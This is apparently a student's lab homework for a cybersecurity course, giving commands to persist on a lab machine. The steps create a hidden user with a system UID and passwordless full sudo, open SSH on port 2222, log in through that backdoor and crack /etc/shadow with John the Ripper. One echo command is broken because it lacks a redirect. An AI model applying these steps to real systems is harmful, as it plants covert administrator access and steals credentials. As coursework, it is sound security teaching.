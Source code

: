 Renato Campos

October 20, 2020

Cybersecurity HW#6

## Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:

    - `adduser --no-create-home sysd`

2. Give your secret user a password: 
   
- Begin with `passwd sysd`, then we set password to: ***thundercats***
  
3. Give your secret user a system UID < 1000:
   
- `usermod -u 777 sysd` **Note:** the use of the number 777 is coincidence.
  
4. Give your secret user the same GID:
   
- `groupmod -g 777 sysd` **Note:** the use of the number 777 is coincidence.
  
5. Give your secret user full `sudo` access without the need for a password:
   
-  Begin with `visudo`, then add the line `sysd  ALL=(ALL) NOPASSWD:ALL` to the end and save.
   
6. Test that `sudo` access works without your password:

    ```bash
    sudo -l -U sysd
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    We begin with:
    
    ```bash
    nano /etc/ssh/sshd_config
    ```
    
    Afterwards we uncomment the line:
    
    ```bash
    #Port 22
    ```
    
    And we change this to:
    
    ```bash
    Port 2222
    ```
    
    However, as per the instructions in the **readme** file, we can also keep the original uncommented line and simply add `Port 2222` in a new line under it with , **or** add the port information to the end of the file with:
    
    ```
    echo "Port 2222" /etc/ssh/sshd_config
    ```

**Step 3: Testing Your Configuration Update**

1. Restart the SSH service:
    - `systemctl restart ssh`

2. Exit the `root` account:
    - As **root**, we begin with `exit`, then as **sysadmin** we logout with `logout`.

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ``ssh sysd@192.168.6.105 -p 2222``

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - To become the root user: `sudo su`
    
    - Cracking all passwords: 
    
      `john --wordlist=/home/student/Desktop/.pass_list.txt /etc/shadow`

